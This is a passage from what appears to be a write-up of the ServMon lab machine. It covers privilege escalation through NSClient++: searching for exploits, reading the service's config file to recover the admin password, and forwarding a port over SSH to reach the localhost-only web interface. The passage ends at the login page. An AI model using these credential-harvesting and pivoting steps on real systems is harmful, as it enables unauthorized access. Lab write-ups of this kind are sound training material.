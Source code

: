## Root

One of the services running that we did not explore was NSClient++. There are several exploits for this service.

```
# searchsploit nsclient++
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution     | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                    | windows/local/46802.txt
-------------------------------------------------------------- ---------------------------------
```

We can verify our version of NSClient++ by navigating to its folder and interacting with the binary.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

For both exploits, we need some form of authentication. `46802.txt` notes that we can get the admin password simply by looking in the configuration file.

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```

We now have the administrator password for NSClient++ and we also note that the service is only available from inside the box. In order to get around this, we can set up SSH remote port forwarding on our local box.

```
# ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb
```

We can verify this worked by trying to browse to `https://127.0.0.1:8443` and we see the login page.
